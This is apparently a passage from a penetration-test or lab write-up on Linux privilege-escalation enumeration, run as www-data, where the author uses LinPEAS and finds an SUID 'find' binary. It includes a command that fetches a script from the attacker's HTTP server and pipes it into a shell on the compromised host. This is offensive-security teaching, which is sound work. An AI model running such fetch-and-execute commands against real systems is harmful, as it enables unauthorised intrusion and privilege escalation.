


# Privilege Escalation Enumeration

After obtaining an initial shell as the `www-data` user, I performed local enumeration to identify potential privilege-escalation vectors.

## LinPEAS

I used LinPEAS to automate the enumeration of the compromised Linux system and identify potential paths from the current low-privileged user to `root`.

To make the LinPEAS script available to the compromised host, I hosted it from my attack machine using a Python HTTP server:

```bash
python3 -m http.server
```

From the compromised host, I retrieved and executed the script directly without permanently storing it on the target using this command:

```bash
curl http://192.168.122.1:8000/linpeas.sh | sh -s -- -a
```
### Running LinPEAS on the target machine


LinPEAS enumerated a wide range of information about the target system, including:

- Running processes and services
- User and group information
- File and directory permissions
- SUID/SGID binaries
- Sudo configuration
- System and kernel information
- Other potential privilege-escalation vectors

I reviewed the output and focused on findings highlighted by LinPEAS as higher-priority opportunities.

## Key Finding: SUID `find`

The enumeration identified the `find` binary as having the SUID permission enabled.

### Interesting Finding: SUID `find` binary


A SUID binary executes with the privileges of its owner rather than the privileges of the user executing it. Because `find` was owned by `root` and had SUID enabled, it represented a potential path to privilege escalation and required further investigation.

The LinPEAS output highlighted this finding, prompting further investigation during the privilege-escalation stage.

The exploitation process is documented in Privilege Escalation.
